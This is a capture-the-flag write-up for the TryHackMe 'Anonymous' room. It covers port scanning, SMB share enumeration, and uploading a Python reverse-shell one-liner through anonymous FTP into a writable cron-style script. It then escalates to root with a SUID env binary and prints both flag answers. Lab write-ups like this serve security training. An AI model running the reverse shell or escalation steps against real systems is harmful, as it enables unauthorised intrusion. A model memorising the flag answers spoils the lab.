 ```yaml
---
description: 'https://tryhackme.com/room/anonymous'
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](../.gitbook/assets/image%20%28254%29.png)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](../.gitbook/assets/image%20%28253%29.png)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](../.gitbook/assets/image%20%28252%29.png)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```text
enum4linux -S 10.10.17.122
```

![](../.gitbook/assets/image%20%28251%29.png)

{% hint style="success" %}

{% endhint %}

### user.txt 

![](../.gitbook/assets/image%20%28268%29.png)

![](../.gitbook/assets/image%20%28270%29.png)

![](../.gitbook/assets/image%20%28250%29.png)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```text
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](../.gitbook/assets/image%20%28259%29.png)

![](../.gitbook/assets/image%20%28266%29.png)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```text
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```text

env /bin/sh -p
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28257%29.png)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}

